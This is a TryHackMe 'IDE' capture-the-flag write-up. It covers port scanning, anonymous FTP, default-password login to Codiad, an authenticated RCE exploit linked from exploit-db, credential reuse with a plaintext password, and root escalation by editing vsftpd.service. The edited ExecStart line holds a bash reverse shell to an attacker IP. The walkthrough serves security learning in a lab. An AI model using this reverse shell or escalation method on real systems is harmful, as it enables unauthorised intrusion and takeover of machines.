 ```yaml
---
title: "Tryhackme - IDE"
classes: wide
tag: 
  - "Ftp"
  - "CVE"
  - "misconfiguration"
  - "sudo"
  - "vsftp.service"
  - "privsec"
header:
  teaser: /assets/images/htb/htb.png
ribbon: red
description: "Writeup for THM - IDE"
categories:
  - Tryhackme
---
```


# Port-Scan
``` sql
sakthi@debian:~/hacking/thm/ide$ rustscan -a 10.10.233.201
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/sakthi/snap/rustscan/28/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.233.201:21
Open 10.10.233.201:22
Open 10.10.233.201:80
Open 10.10.233.201:62337
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] 
Starting Nmap 7.60 ( https://nmap.org ) at 2021-10-17 18:25 IST
Initiating Ping Scan at 18:25
Scanning 10.10.233.201 [2 ports]
Completed Ping Scan at 18:25, 0.48s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:25
Completed Parallel DNS resolution of 1 host. at 18:25, 0.06s elapsed
DNS resolution of 1 IPs took 0.08s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 18:25
Scanning 10.10.233.201 [4 ports]
Discovered open port 21/tcp on 10.10.233.201
Discovered open port 22/tcp on 10.10.233.201
Discovered open port 80/tcp on 10.10.233.201
Discovered open port 62337/tcp on 10.10.233.201
Completed Connect Scan at 18:25, 0.35s elapsed (4 total ports)
Nmap scan report for 10.10.233.201
Host is up, received syn-ack (0.43s latency).
Scanned at 2021-10-17 18:25:25 IST for 1s

PORT      STATE SERVICE REASON
21/tcp    open  ftp     syn-ack
22/tcp    open  ssh     syn-ack
80/tcp    open  http    syn-ack
62337/tcp open  unknown syn-ack

Read data files from: /snap/rustscan/28/usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```
first we check port 21, ftp port anonymous login allowed 
``` sql
sakthi@debian:~/hacking/thm/ide$ ftp 10.10.233.201
Connected to 10.10.233.201.
220 (vsFTPd 3.0.3)
Name (10.10.233.201:sakthi): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        114          4096 Jun 18 06:10 .
drwxr-xr-x    3 0        114          4096 Jun 18 06:10 ..
drwxr-xr-x    2 0        0            4096 Jun 18 06:11 ...
226 Directory send OK.
ftp> 
```
what is ... ?
![image](https://user-images.githubusercontent.com/82046832/137628193-0e120b53-731a-499b-be75-6dece345d9f5.png)
download this hidden file 

open that file
![image](https://user-images.githubusercontent.com/82046832/137628310-c956b185-8f4e-427c-a6b5-fe122416925c.png)

**cat ./-**
``` sql
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

we have usernames john and drac,drac reset john password and the password is default one!!

i tried ssh bruteforce its not worked :/, lets findout the login page!!

## PORT 80
![image](https://user-images.githubusercontent.com/82046832/137628401-b7f37ebc-d5f6-4881-9164-e0c08b3f3ce5.png)
port 80 have default apache page nothing interstring 
(directory bruteforcing running against port 80 in background)

lets enum further ports

## PORT 62337

62337 its an unusual port

![image](https://user-images.githubusercontent.com/82046832/137628463-0b38f461-db6f-4f7a-b265-da31cd02c0ab.png)

whoah! we have login page of Codiad 2.8.4 
it have rce(authenticated) 
![image](https://user-images.githubusercontent.com/82046832/137628512-38447a1d-8ac5-4f0c-be6a-03b9ee940540.png)

we have users and password is default credentials(- file)

lets try to login john user default password is 'password' and we logged successfully!

![image](https://user-images.githubusercontent.com/82046832/137628575-6f3ca961-83f7-469d-89fc-8a803c4a2300.png)

let's use this [exploit](https://www.exploit-db.com/exploits/49705) to get initial shell
[code](https://www.exploit-db.com/raw/49705)

![image](https://user-images.githubusercontent.com/82046832/138459370-71c292ad-57d1-468f-8de8-1f49ef43cc44.png)
make sure run the following command(highlited in terminal)

got a shell
![image](https://user-images.githubusercontent.com/82046832/138459560-aca1bfc8-ae00-48eb-9d5c-76687dcfefa5.png)
# Horizontal Privillege Escalation

![image](https://user-images.githubusercontent.com/82046832/138459845-3d1e0222-3394-43f8-9919-cd0d412a2855.png)
got mysql creds of drac user , but unable to login to mysql so i try to use this creds for drac user password 

``` sql
www-data@ide:/home/drac$ su drac
su drac
Password: Th3dRaCULa1sR3aL

drac@ide:~$ cat user.txt
cat user.txt
02930d21a8*******4a466
drac@ide:~$ 
```
uff got user.txt

# Privilleged Escalation

sudo -l 

``` sql
drac@ide:~$ sudo -l
sudo -l
[sudo] password for drac: Th3dRaCULa1sR3aL

Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
drac@ide:~$ 
```
we can run ftp restart command in root 
*further reserach and linpeas report*
![image](https://user-images.githubusercontent.com/82046832/138460446-703b3c5d-b0c4-443a-a24b-17d9399abbf9.png)

we have permission to edit **vsftpd.service** file 

change the value ExecStart= , put our reverse shell payload or command to read root.txt and run 
 ```
  sudo /usr/sbin/service vsftpd restart
```
/lib/systemd/system/vsftpd.service
``` service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'exec bash -i &>/dev/tcp/10.17.12.54/9070 <&1'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```
![image](https://user-images.githubusercontent.com/82046832/138461544-5f3e6f5f-18fb-4b6c-9888-ccf1541ed2de.png)
![image](https://user-images.githubusercontent.com/82046832/138461623-46558bdf-fc77-4531-9162-ecc3f374df9c.png)







